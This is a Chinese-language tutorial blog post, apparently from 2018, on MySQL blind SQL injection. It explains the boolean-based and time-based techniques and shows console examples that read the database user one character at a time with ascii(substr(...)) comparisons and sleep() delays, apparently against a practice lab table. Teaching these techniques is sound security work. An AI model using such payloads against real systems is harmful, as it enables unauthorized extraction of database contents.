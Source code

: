 ```yaml
---
layout: post
title:  "mysql盲注"
date:   2018-01-06 21:41:45 +0800
categories: [mysql注入, 盲注]
---
```


> 在没有回显，报错的情况下我们要利用一个注入，大致分为这两类：布尔，时间（这里没有将报错归入盲注是我觉得报错还是有错误回显回来的）

1.**基于布尔型的盲注**
先介绍几个下面可能会用到的函数：
-	left(str,len) 返回str从左到右的len长度的字符
-	substr(str,pos,len);
	mid(str,pos,len);
    substring(str,pos,len);
    返回str第pos位向右len长度的字符(mysql里的解释是：substr,mid is a synonym for SUBSTRING)
-	ascii(char); 
	ord(char);
    返回字符的ascii码值
-	like '';
	regexp '' 模糊匹配模式

简单的演示
```mysql
mysql> select * from users where id=1 and ascii(substr((select user()),1,1)) > 49;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and ascii(substr((select user()),1,1)) = 49;
Empty set (0.00 sec)
```

2.**基于时间的盲注**
基于时间的话，主要会利用到这两个函数sleep()和benchmark()配合if使用像下面这样
```mysql
mysql> select * from users where id=1 union select 1,1,if(ascii(substr((select user()),1,1)) = 49,0,sleep(5));
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 1        | 0        |
+----+----------+----------+
2 rows in set (5.00 sec)
```
